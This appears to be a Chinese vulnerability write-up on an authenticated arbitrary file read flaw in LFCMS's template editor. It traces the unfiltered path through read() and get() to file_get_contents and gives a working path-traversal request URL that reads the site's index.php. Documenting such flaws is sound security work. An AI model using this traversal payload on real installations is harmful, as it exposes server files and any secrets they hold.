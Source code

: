LFCMS 后台任意文件读取漏洞
==========================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

漏洞起始点位于`/Application/Admin/Controller/TemplateController.class.php`中的`edit`方法，该方法用作后台模板编辑，关键代码如下![1.png](/Users/aresx/Documents/VulWiki/.resource/LFCMS后台任意文件读取漏洞/media/rId24.png)

我们传入的路径需要将`/`替换为`*`接着调用了`read`方法，跟进该方法

    public function read($filename,$type=''){
          return $this->get($filename,'content',$type);
    }

继续跟进get方法

    public function get($filename,$name,$type='') {
        if(!isset($this->contents[$filename])) {
            if(!is_file($filename)) return false;
            $this->contents[$filename]=file_get_contents($filename);
        }
        $content=$this->contents[$filename];
        $info   =   array(
                    'mtime'     =>  filemtime($filename),
                    'content'   =>  $content
                );
        return $info[$name];
    }
    }

该方法中返回了要读取的文件内容，可以看到在整个流程中没有对传入参数`path`的过滤，导致我们可以跨目录读文件，下面来验证一下，尝试读取一下跟目录`index.php`文件，测试链接如下

    http://www.0-sec.org/admin.php?s=/Template/edit/path/*..*index.php

![2.png](/Users/aresx/Documents/VulWiki/.resource/LFCMS后台任意文件读取漏洞/media/rId25.png)

成功的读到了`CMS`的入口文件

参考链接
--------

> https://xz.aliyun.com/t/7844\#toc-4
